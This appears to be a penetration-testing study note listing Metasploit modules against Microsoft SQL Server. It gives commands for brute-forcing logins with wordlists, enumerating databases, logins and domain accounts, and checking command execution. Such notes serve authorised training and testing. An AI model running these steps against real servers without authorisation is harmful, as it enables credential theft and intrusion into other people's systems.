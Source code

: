 ### MSSQL (Microsoft) Metasploit ###

<mark style="background: #FF5582A6;">msfconcole</mark>
+ <mark style="background: #ADCCFFA6;">mssql_login</mark>
	+ will <mark style="background: #FFF3A3A6;">brute force</mark>
	+ `use auxiliary/scanner/mssql/mssql_login`
		+ `set rhosts IP`
		+ `set pass_file /usr/share/metasploit-framwork/data/wordlists/unix_passwords.txt`
		+ `set verbose false`
		+ `set user_file /root/Desktop/wordlist/common_users.txt`
+ <mark style="background: #ADCCFFA6;">mssql_enum</mark>
	+ lots of <mark style="background: #FFF3A3A6;">database information</mark>
	+ `use auxiliary/admin/mssql/mssql_enum`
		+ `set rhosts IP`
+ <mark style="background: #ADCCFFA6;">mssql_enum_sql_logins</mark>
	+ can <mark style="background: #FFF3A3A6;">see logins and the user type</mark>
	+ `use auxiliary/admin/mssql/mssql_enum_sql_logins`
		+ `set rhosts IP`
+ <mark style="background: #ADCCFFA6;">mssql_exec</mark>
	+ can see if can <mark style="background: #FFF3A3A6;">run commands</mark>
	+ `use auxiliary/admin/mssql/mssql_exec`
		+ `set rhosts IP`
+ <mark style="background: #ADCCFFA6;">mssql_enum_domain_accounts</mark>
	+ can see <mark style="background: #FFF3A3A6;">domain accounts</mark>
	+ `use auxiliary/admin/mssql/mssql_enum_domain_accounts`
		+ `set rhosts IP`
